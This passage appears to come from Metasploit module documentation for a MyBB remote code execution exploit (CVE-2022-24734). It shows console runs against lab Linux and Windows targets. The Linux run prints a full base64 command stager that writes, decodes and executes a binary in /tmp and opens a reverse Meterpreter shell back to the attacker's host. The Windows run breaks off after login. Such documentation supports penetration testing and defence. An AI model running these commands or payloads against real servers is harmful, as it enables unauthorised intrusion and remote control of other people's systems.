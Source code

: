 ```
index.php
jscripts
modules
styles
^C
Abort session 3? [y/N]  y
```

### Linux (target 2 - linux (Dropper))
```
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.0.48 RHOSTS=127.0.0.1 RPORT=8080 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.0.48:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Generated command stager: ["echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKgBE2gCABFcieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/UAznK.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/jHFeb' < '/tmp/UAznK.b64' ; chmod +x '/tmp/jHFeb' ; '/tmp/jHFeb' ; rm -f '/tmp/jHFeb' ; rm -f '/tmp/UAznK.b64'"]
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (989032 bytes) to 192.168.0.48
[*] Meterpreter session 4 opened (192.168.0.48:4444 -> 192.168.0.48:50213) at 2022-05-23 15:43:26 +0200
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > sysinfo
Computer     : 172.18.0.4
OS           :  (Linux 5.10.76-linuxkit)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

### Windows (target 3 - Windows (In-Memory))
```
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > set target 4
target => 4
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.1.44 RHOSTS=192.168.1.215 USERNAME=msfuser PASSWORD=123456

[*] Powershell command length: 4160
[*] Started reverse TCP handler on 192.168.1.44:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
```